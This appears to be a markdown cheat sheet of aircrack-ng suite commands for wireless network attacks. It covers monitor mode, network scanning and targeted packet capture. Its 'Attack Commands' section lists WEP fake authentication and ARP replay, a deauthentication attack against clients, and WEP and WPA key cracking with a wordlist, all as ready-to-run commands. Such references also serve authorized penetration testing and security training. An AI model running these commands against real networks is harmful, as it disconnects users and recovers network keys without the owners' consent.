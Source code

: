 
## Complete Command Reference {#command-reference}

### Quick Reference Card

#### Interface Management
```bash
# Monitor mode
airmon-ng start wlan0
airmon-ng stop wlan0mon

# Manual monitor
ip link set wlan0 down
iw dev wlan0 set type monitor  
ip link set wlan0 up

# Channel setting
iwconfig wlan0 channel 6
iw dev wlan0 set channel 6
```

#### Network Discovery
```bash
# Basic scanning
airodump-ng wlan0mon
wash -i wlan0mon
iwlist wlan0 scan

# Targeted monitoring
airodump-ng --bssid AA:BB:CC:DD:EE:FF -c 6 -w capture wlan0mon
```

#### Attack Commands

**WEP Attacks:**
```bash
# Fake authentication
aireplay-ng -1 0 -a AP_MAC -h YOUR_MAC wlan0mon

# ARP replay
aireplay-ng --arpreplay -b AP_MAC -h YOUR_MAC wlan0mon

# Crack WEP
aircrack-ng capture.cap
```

**WPA Attacks:**
```bash
# Deauth attack
aireplay-ng -0 5 -a AP_MAC -c CLIENT_MAC wlan0mon

# Crack WPA
aircrack-ng -w wordlist.txt capture.cap
```
